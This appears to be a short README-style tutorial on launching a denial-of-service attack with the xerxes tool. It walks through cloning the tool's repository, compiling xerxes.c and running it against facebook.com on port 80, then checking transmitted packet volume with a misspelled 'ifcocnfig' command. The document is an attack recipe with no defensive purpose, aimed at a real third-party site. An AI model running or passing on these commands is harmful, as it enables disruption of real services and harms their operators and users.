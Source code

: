 ## DDOS using ( xerxes )

### Step 1 ( installation )

```shell

git clone https://github.com/Soldie/xerxes-DDos-zanyarjamal-C

cd xerxes-DDos-zanyarjamal-C

```

### Step 2 ( run xerxes c program )

```shell

# compile c program

gcc xerxes.c -o xerxes

## the c program

./xerxes facebook.com 80


```

### Step 3 ( check total size of the packet )

```shell

# check the TX package size

ifcocnfig

```
